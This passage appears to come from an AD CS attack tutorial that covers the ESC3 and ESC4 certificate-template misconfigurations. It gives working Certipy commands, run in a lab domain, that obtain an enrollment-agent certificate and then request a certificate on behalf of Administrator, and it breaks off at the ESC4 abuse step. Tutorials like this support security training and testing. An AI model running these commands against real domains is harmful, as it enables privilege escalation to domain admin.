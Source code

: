 Here is what we need to pay attention to so we can spot vulnerable templates ourselves:

![ESC3-1](/screenshots/2023-09-03_21-25.png?raw=true)

Requirements for template 2:

- The CA grants *low-privileged users* enrollment rights
- Manager approval is disabled
- **The template schema is version 1 or is greater than 2 and specifies an Application Policy Issuance Requirement requiring the Certificate Request Agent EKU.**
- The certificate template has an EKU that allows for domain authentication.
- Enrollment agent restrictions are not implemented on the CA.

![ESC3-2](/screenshots/ESC3-2.png?raw=true)

Here is what such a template would look like, however, it will not show as vulnerable to anything on its own.

![ESC3-2](/screenshots/2023-09-03_21-28.png?raw=true)

### Template Abuse

Abusing this template will be a repeat of what we covered for ESC2.

First, we must request a certificate based on the certificate template vulnerable to ESC3.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA  -template Vuln-ESC3-1 -dc-ip 192.168.91.185`

![](/screenshots/2023-09-03_21-39.png?raw=true)

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of another user by specifying the `-on-behalf-of` flag. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `certipied` rather than `certipied.local`.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA  -template User -on-behalf-of 'certipied\Administrator' -pfx s.jackson.pfx -dc-ip 192.168.91.185`

![](/screenshots/2023-09-03_21-41.png?raw=true)

We can then use the new certificate to authenticate as the administrator.

## Vulnerable Certificate Template Access Control - ESC4

![ESC4](/screenshots/ESC4.png?raw=true)

ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

By default, Certipy will overwrite the configuration to make it vulnerable to ESC1.

### Template Abuse
